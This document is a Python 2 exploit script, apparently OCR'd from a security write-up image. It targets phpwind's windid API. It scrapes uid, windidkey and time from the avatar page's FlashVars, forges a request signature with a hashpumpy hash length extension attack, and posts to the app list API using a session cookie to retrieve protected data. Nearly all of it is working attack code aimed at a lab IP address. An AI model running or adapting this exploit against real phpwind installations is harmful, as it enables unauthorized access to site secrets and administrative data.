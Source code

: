 ```
    response = opener.open(url)
    html = response.read()
    if response.info().get('Content-Encoding') == 'gzip':
        stream = StringIO.StringIO(html)
        with gzip.GzipFile(fileobj=stream) as f:
            html = f.read()
    soup = BeautifulSoup(html, 'lxml')
    key_url = soup.find('param',attrs=`{`'name':'FlashVars'`}`).get('value')
    key_url = urllib.unquote(key_url)
    rule = 'uid=(.+?)&amp;windidkey=(.+?)&amp;time=(.+?)&amp;clientid=(.+?)&amp;type'
    Pattern = re.compile(rule, re.S)
    rs = re.findall(Pattern, key_url)
    return rs[0]
def padding_exten(windidkey,time,uid):
    hexdigest = windidkey
    original_data = time+'adoAvatarcavatarmapitypeflashuid'+uid+'uidundefined'
    data_to_add = 'alistcappmapi'
    key_length = 32    
    result = list()
    rs = hashpumpy.hashpump(hexdigest,original_data,data_to_add,key_length)
    result.append(rs[0])
    tmp = str(rs)
    tmp = tmp.split(',')[1]
    tmp = tmp.split("'")[1]
    tmp = tmp.replace('\x','%')   
    rule = 'undefined(.+?)alist'
    Pattern = re.compile(rule, re.S)
    tmp = re.findall(Pattern, tmp)
    result.append(tmp[0]) 
    return result
if __name__ == '__main__':
    url = 'http://192.168.0.100/phpwind'
    cookie = 'CNZZDATA1257835621=169451052-1472798292-null%7C1472798292; PHPSESSID=5adaadb063b4208acd574d3d044dda38; ECS[visit_times]=5; csrf_token=ab686222777d7f80; xzr_winduser=PbUcCS1OT1ZjCzY8GoJOV8EOvix9OdGpc%2BmWBPYV6ar07B7AZSOhSw%3D%3D; xzr_lastvisit=7%091475751418%09%2Fphpwind%2F%3Fm%3Dprofile%26c%3Davatar%26_left%3Davatar; xzr_visitor=cx59FPbNJ4FYG2e9cWKpUP%2FTZTef7Yu4DTFLTftwwZ%2FPEVo8'
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    opener.addheaders.append(
        ('User-Agent', 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0'))
    opener.addheaders.append(('Accept', '*/*'))
    opener.addheaders.append(('Accept-Language', 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3'))
    opener.addheaders.append(('Accept-Encoding', 'gzip, deflate'))
    opener.addheaders.append(('Connection', 'keep-alive'))
    opener.addheaders.append(('Cookie', cookie))
    opener.addheaders.append(('Cache-Control', 'max-age=0'))
    uid, windidkey, time, clientid = get_key(url)
    windidkey, padding = padding_exten(windidkey,time,uid)
    payload = '/windid/index.php?time='+time+'&amp;windidkey='+windidkey+'&amp;clientid='+clientid+'&amp;adoAvatarcavatarmapitypeflashuid'+uid+'uidundefined='+padding
    url = url + payload
    data = `{`'m':'api','c':'app','a':'list'`}`
    data = urllib.urlencode(data)
    response = opener.open(url,data)
    html = response.read()
    if response.info().get('Content-Encoding') == 'gzip':
        stream = StringIO.StringIO(html)
        with gzip.GzipFile(fileobj=stream) as f:
            html = f.read()
    print html
```
